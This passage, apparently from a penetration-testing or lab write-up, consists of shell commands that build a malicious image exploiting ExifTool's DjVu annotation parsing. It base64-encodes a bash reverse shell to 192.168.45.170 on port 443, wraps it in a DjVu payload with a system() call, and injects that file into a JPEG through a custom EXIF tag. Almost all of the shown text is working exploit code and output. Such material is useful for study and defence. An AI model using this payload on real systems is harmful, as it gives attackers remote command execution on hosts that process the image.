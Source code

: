 {% code overflow="wrap" %}
```bash
# Encode reverse shell payload to Base64 for safe injection
$ echo 'sh -i >& /dev/tcp/192.168.45.170/443 0>&1' | base64
c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40NS4xNzAvNDQzIDA+JjEK

# Create metadata payload with embedded system call to decode and execute shell
$ cat payload
(metadata "\c${system('echo c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40NS4xNzAvNDQzIDA+JjEK|base64 -d|bash')};")

# Compress the payload into bzz format (required by DjVu)
$ bzz payload payload.bzz

# Create malicious DjVu file with injected payload
$ djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz

# Confirm file type is valid DjVu
$ file exploit.djvu
exploit.djvu: DjVu image or single page document

# Define a custom EXIF tag for injecting malicious DjVu file
$ cat config_file
%Image::ExifTool::UserDefined = (
    # All EXIF tags are added to the Main table, and WriteGroup is used to
    # specify where the tag is written (default is ExifIFD if not specified):
    'Image::ExifTool::Exif::Main' => {
        # Example 1.  EXIF:NewEXIFTag
        0xc51b => {
            Name => 'HasselbladExif',  # Custom tag name
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
    },
);
1; # Required line to end the config

# Inject DjVu payload into a JPEG image via the custom EXIF tag
$ exiftool -config config_file '-HasselbladExif<=exploit.djvu' duck.jpg
    1 image files updated
```
{% endcode %}
